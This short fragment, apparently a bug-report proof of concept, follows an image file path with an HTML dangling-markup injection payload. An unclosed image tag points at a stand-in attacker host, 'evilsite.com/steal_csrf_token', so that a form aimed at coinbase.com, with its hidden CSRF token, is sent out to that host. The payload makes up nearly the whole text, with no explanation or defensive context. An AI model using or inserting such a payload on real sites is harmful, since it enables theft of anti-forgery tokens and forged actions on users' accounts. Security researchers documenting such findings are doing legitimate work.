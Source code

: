 <img src='https://evilsite.com/steal_csrf_token?html=
<form action="https://coinbase.com/poc">

<input type="hidden" name="csrf_token" value="some_csrf_token_value">
</form>